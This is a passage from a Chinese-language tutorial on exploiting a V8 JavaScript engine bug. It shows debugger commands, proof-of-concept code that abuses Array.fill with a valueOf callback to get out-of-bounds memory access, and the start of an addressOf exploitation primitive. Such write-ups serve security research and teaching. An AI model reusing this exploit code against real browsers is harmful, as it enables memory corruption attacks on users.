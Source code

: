 编译完成后使用`gdb`进行调试，开启`--allow-natives-syntax`

```
gdb ./d8
pwndbg&gt; set args --allow-natives-syntax ./exp.js
pwndbg&gt; r
```

按照上面所说的的方法，编写出测试代码

```
array = [];
array.length = 0xffffffff;
arr = array.fill(1.1, 0x80000000 - 1, `{`valueOf() `{`
  array.length = 0x100;
  array.fill(1.1);
  return 0x80000000;
`}``}`);

let a = new Array(0x12345678,0); 
let ab = new ArrayBuffer(8); 
%DebugPrint(array);
%DebugPrint(a);
%DebugPrint(ab);
%SystemBreak();
```

运行之后可以得到`array,a,ab`的地址

[![](https://p5.ssl.qhimg.com/t017f37c2f5f7772d20.png)](https://p5.ssl.qhimg.com/t017f37c2f5f7772d20.png)

打印`array`的内存并找到`array-&gt;elements`的地址

[![](https://p5.ssl.qhimg.com/t01edda97c3ad4c65e9.png)](https://p5.ssl.qhimg.com/t01edda97c3ad4c65e9.png)

打印`array-&gt;elements`的内存，可以发现`array-&gt;elements`已经和`a`,`a-&gt;elements`以及`ab`的内存区域重叠了，放两张对比图

正常情况：

[![](https://p5.ssl.qhimg.com/t0147d4829dddba35c9.png)](https://p5.ssl.qhimg.com/t0147d4829dddba35c9.png)

触发漏洞情况：

[![](https://p2.ssl.qhimg.com/t01658638211fa389ec.png)](https://p2.ssl.qhimg.com/t01658638211fa389ec.png)

那么这就造成了`OOB`

接下来通过`a`来构造`addressOf`原语

```
let idx = arr.indexOf(i2f(0x1234567800000000n)); 
function addressOf(obj)
`{`
    a[0] = obj;         
    return f2i(arr[idx]);
`}`
```
